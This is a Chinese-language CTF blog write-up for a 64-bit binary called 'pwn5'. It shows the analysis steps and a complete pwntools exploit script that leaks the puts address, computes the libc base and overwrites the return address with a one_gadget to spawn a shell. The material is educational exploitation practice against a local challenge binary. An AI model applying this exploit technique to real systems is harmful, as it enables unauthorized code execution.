 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      PWN5 WriteUp 				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-8.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 缓冲区溢出
    - CTF
    - PWN
---
```




### PWN5

#### 考点

- 对`ldd, patchelf`命令以及依赖库版本的了解
- 对ASLR机制的理解
- `one_gadget`工具使用

#### 解题过程

- 首先使用`checksec, files`查看程序基本信息：

![checksec](/img/posts/2023-10-23-pwn5/images/checksec.png)

![file](/img/posts/2023-10-23-pwn5/images/file.png)

​		可见程序为64位，开启DEP保护，为动态链接的程序。

- 使用`ldd`命令检查程序运行所需的依赖库，其中包括程序所依赖的C函数库`libc.so.6`以及动态链接器 `ld-linux-x86-64.so.2` 的路径  

![ldd](/img/posts/2023-10-23-pwn5/images/ldd.png)

- 使用 `patchelf `替换 `libc` 与 `ld` 到指定版本，该步骤目的是将本地运行环境调整到与预期一致。 `libc` 与 `ld` 的版本必须匹配，题中给定了 `libc-2.23.so` ，因此需要2.23版本的 `ld` 。 

 ![ldd-1](/img/posts/2023-10-23-pwn5/images/ldd-1.png)

- 使用`ida`打开，反编译：

`main`: 

![main](/img/posts/2023-10-23-pwn5/images/main.png)

`stack_flow`: `read`函数存在漏洞

![stack_flow](/img/posts/2023-10-23-pwn5/images/stack_flow.png)

- 使用`ROPgadget`工具查找程序中是否有`system`函数和`"/bin/sh"`字符串，结果表明并没有，因此需要自行输入字符串，并从动态链接库中查找`system`函数的偏移

![system&bin_sh](/img/posts/2023-10-23-pwn5/images/system&bin_sh.png)

- 构造脚本获取到`puts`函数在`libc`中的相对偏移：

  ```python
  from pwn import *
  
  
  libc= ELF('./libc-2.23.so')
  
  libc_puts_offset = libc.symbols['puts']
  print(hex(libc_puts_offset))
  ```

![puts_related_addr](/img/posts/2023-10-23-pwn5/images/puts_related_addr.png)

- 使用`one_gadget`工具获取到命令地址`exceve("/bin/sh")`

![one_gadget](/img/posts/2023-10-23-pwn5/images/one_gadget.png)

- 构造python脚本实现`"/bin/sh"`字符串的输入。

```python
from pwn import *

# 启动进程
context(arch='amd64', log_level='debug')
p = process('./pwn5')

elf = ELF("./pwn5")
p.recvuntil("Give me your payload\n")

# 参数地址
libc= ELF('./libc-2.23.so')
libc_puts_offset = libc.symbols['puts']
print(hex(libc_puts_offset))
libc_system_offset = libc.symbols['system']
print(hex(libc_system_offset))
libc_one_gadget_offset = 0x0f1247

pop_rdi = 0x400613
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main_addr = 0x400587

# 构造payload泄漏puts函数地址
payload1 = flat(b'a'*(0x20 + 8), pop_rdi, puts_got, puts_plt, main_addr)
p.send(payload1)
puts_libc = p.recv(6)
puts_libc = u64(puts_libc.ljust(8, b'\x00'))
success(hex(puts_libc))

libc_base = puts_libc - libc_puts_offset
success(hex(libc_base))
one_gadget = libc_base + libc_one_gadget_offset
print(hex(one_gadget))

payload2 = b'a'*(0x20 + 8) + p64(one_gadget)
p.recvuntil("Give me your payload\n")
# gdb.attach(p, 'b *0x400585')
p.send(payload2)
p.interactive()
```



- 重要的函数地址以及偏移量：

| 函数                   | 地址               |
| ---------------------- | ------------------ |
| `main`                 | 0x0000000000400587 |
| `stack_overflow`       | 0x0000000000400566 |
| `stack_overflow_leave` | 0x0000000000400585 |
| `pop_rdi`              | 0x0000000000400613 |
| `one_gadget`           | 0x0f1247           |



#### 结果

成功执行命令：

![image-20231001182756684](/img/posts/2023-10-23-pwn5/images/result.png)
